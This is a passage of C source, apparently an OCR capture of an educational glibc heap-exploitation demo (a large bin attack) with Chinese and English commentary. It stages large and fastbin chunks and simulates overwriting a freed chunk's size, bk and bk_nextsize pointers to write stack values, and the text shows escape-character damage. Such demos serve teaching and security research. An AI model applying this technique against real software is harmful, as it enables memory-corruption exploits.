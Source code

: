 ```
    //然后申请一个fastbin chunk 来避免我们的第一个large chunk free的时候与下一个large chunk合并
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the first large chunk during the free()nn");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    //现在是第二个large chunk
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %pn", p2 - 2);

    //同理,防止第二个free的时候与下一个large chunk合并
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the second large chunk during the free()nn");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    //最后我们分配第三个large chunk
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %pn", p3 - 2);

    //这个fastbin是为了防止和top chunk合并
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
           " the third large chunk during the free()nn");
    malloc(0x20);

    free(p1);
    free(p2);
    //现在我们free掉第一个和第二个large chunks,此时他们会被插入到unsorted bin中
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
           " [ %p &lt;--&gt; %p ]nn", (void *)(p2 - 2), (void *)(p2[0]));

    malloc(0x90);
    //此时,我们申请一个小于被释放的第一个large chunk的chunk
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
            " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
            ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
            " [ %p ]nn", (void *)((char *)p1 + 0x90));

    free(p3);
    //现在我们free第三个large chunk
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
           " [ %p &lt;--&gt; %p ]nn", (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    //现在假设我们有一个漏洞可以覆写被free的第二个large chunk的size,bk,bk_nextsize指针
    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's "size""
            " as well as its "bk" and "bk_nextsize" pointersn");

    //现在我们减少被free的第二个large chunk来逼迫malloc将被free的第三个large chunk插入到large bin freelist的头部
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
    //为了覆写栈上的值,我们将在stack_var1前将bk设位16bytes,并在stack_var2前将bk_nextsize设为32bytes
            " at the head of the large bin freelist. To overwrite the stack variables, we set "bk" to 16 bytes before stack_var1 and"
            " "bk_nextsize" to 32 bytes before stack_var2nn");

```